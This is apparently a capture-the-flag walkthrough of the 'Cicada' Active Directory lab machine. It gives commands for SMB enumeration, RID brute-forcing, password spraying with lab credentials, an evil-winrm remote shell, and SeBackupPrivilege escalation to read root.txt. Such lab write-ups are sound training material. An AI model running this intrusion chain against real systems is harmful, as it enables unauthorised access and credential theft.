 # Cicada

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Machine IP Address : 10.10.11.35



### Enumeration Phase

Start with Nmap Scan

```
nmap -Pn -A -p- 10.10.11.35
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

This seems to be an Active Directory box.



### Enumerating SMB

I started by enumerating SMB to see what access is available for guest/anonymous users.

```
smbmap -H 10.10.11.35 -u 'anonymous'
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

First, I tried accessing each share. Using smbclient, I was able to access the HR share.

```
smbclient \\\\10.10.11.35\\HR -U "anonymous"
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

"I used the `get` command in smbclient to transfer the 'Notice from HR.txt' file, which revealed a password."

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Now that we have a password, let's see if any users are using it.



### Enumerating Users

We try to find domain users by brute-forcing RIDs.

```
nxc smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

I found several usernames, so I’ll try to validate them using the password we discovered. I put all the usernames in a text file and performed a password spray.

```
nxc smb 10.10.11.35 -u userrr.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' 
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

We found a user who uses the password: 'michael.wrightson.

Next, I’ll look for a user with higher privileges.

```
nxc smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'  --users
```

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

And we found a user whose password is stored in the description

Now, I ran `smbmap` to check if this user has access to more shares, and it turns out they do.

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Checked the 'DEV' share and found a PowerShell script called 'Backup\_script.ps1.

"Executed the following commands to access the DEV share:

```bash
smbclient \\\\10.10.11.35\\DEV -U 'david.orelious'
Password for [WORKGROUP\david.orelious]:
```

I listed the contents with the `ls`command , and `get`the Backup\_script.ps1

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Checking its contents revealed a new user, 'emily.oscars,' along with her password!

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

### Get the Shell

Enumerated the shares with the new user but found nothing, so I tried to get a shell using ‘evil-winrm.

```
evil-winrm -i 10.10.11.35  -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

Successfully obtained a shell.

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Searched for the user flag in several directories and finally found it in `Desktop/user.txt`.

<figure><img src="../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

### PrivEsc

Ran `whoami /priv` to check the user's privileges

<figure><img src="../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

With this, I realized that ‘SeBackupPrivilege’ can be used to gain read access to any file, including `root.txt`.

I did some more research and found a PowerShell script to access the `root.txt` file

{% embed url="https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1?source=post_page-----83ddcc0db5c7--------------------------------" %}

We start with transfer the script to target computer with our python server running and following command.

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

Now, I ran the script using the following command to get access to the `root.txt` file

```
Acl-FullControl -user cicada\emily.oscars -path C:\users\administrator\desktop
```

<figure><img src="../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

Now, I can view the contents of `root.txt`!

<figure><img src="../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

